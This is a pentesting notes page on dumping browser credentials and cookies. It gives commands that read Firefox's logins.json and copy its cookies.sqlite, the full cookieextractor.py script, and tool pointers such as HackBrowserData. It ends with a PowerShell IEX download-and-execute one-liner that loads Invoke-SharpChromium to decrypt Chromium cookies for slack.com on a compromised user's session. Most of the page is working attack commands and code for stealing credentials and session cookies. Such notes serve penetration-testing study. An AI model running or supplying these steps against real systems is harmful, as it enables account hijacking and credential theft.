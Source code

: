 ```yaml
---
title: Pentesting browsers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - browsers
  - chrome
  - firefox
  - tools
---
```


# Pentesting Browsers


## Dumping memory and cache: focus on credentials

[mimipenguin](https://github.com/huntergregal/mimipenguin)
[lazagne](lazagne.md)

Firefox stored credentials:

```bash
ls -l .mozilla/firefox/ | grep default 

cat .mozilla/firefox/xxxxxxxxx-xxxxxxxxxx/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.


## Dumping data from session, local data and others

### HackBrowserData
[HackBrowserData](https://github.com/moonD4rk/HackBrowserData):  HackBrowserData is a command-line tool for decrypting and exporting browser data (passwords, history, cookies, bookmarks, credit cards, download history, localStorage and extensions) from the browser. It supports the most popular browsers on the market and runs on Windows, macOS and Linux.


### Cookie extraction with [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

We can copy the file to our machine and use the Python script [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract cookies from the Firefox cookies.SQLite database.

This is the script:

```python
#!/usr/bin/env python3
# Sample Script to extract cookies offile from FireFox sqlite database 
# Created by PlainText 

import argparse
import sqlite3

def main(dbpath, host, cookie):
	conn = sqlite3.connect(dbpath)
	cursor = conn.cursor()

	if (host == "" and cookie == ""):
		query = "SELECT * FROM moz_cookies"
	elif (host != "" and cookie == ""):
		query = "SELECT * FROM moz_cookies WHERE host LIKE '%{}%'".format(host)
	elif (host == "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%'".format(cookie)
	elif (host != "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%' AND host LIKE '%{}%'".format(cookie, host)

	cursor.execute(query)
	records = cursor.fetchall()
	rowCount = len(records) 

	if (rowCount > 0):
		for row in records:
			print(row)
	else:
		print("[-] No cookie found with the selected options.")

	conn.close()

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("--dbpath", "-d", required=True, help="The path to the sqlite cookies database")
	parser.add_argument("--host", "-o", required=False, help="The host for the cookie", default="")
	parser.add_argument("--cookie", "-c", required=False, help="The name of the cookie", default="")
	args = parser.parse_args()
	main(args.dbpath, args.host, args.cookie)
```

```shell-session
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```


### Cookie Extraction from Chromium-based Browsers

The chromium-based browser also stores its cookies information in an SQLite database. The only difference is that the cookie value is encrypted with [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` is commonly used to encrypt data using information from the current user account or computer.

To get the cookie value, we'll need to perform a decryption routine from the session of the user we compromised.

[SharpChromium](https://github.com/djhohnstein/SharpChromium) does what we need: It connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

Let's use [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), a PowerShell script created by [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) which uses reflection to load SharpChromium.

**PowerShell Script - Invoke-SharpChromium**

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com"
```
